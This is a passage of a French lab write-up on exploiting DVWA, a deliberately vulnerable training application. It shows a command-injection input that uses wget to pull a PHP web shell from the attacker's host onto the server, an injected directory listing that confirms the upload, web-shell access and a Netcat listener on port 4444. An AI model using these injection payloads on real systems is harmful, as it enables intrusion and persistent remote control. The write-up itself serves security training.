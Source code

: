 3. **Injection de Fichier via la Command Injection** :
- Dans le champ de commande injection, j'ai saisi : ```google.com; wget http://192.168.44.134:8000/shell.php -O /var/www/html/dvwa/hackable/uploads/shell.php ```
- Cette commande utilise **wget** pour télécharger notre **shell.php** personnalisé dans le dossier 'Uploads' du serveur.

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.055.png)

4. **Vérification du Téléchargement du Fichier** :
- Pour confirmer le succès de l'opération, nous avons utilisé la commande : ```192.168.44.134; ls -la /var/www/html/dvwa/hackable/uploads ``` . Le fichier 'shell.php' était bien présent.
5. **Accès au Shell Interactif** :![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.056.jpeg)
- Après nous être déplacés dans le dossier contenant 'shell.php', nous avons eu accès à un shell interactif (PwnyShell).

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.057.png)

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.058.jpeg)

6. **Ouverture d'un Listener Netcat sur le Port 4444** :
- J'ai ensuite ouvert un listener Netcat sur mon ordinateur, écoutant sur le port 4444.
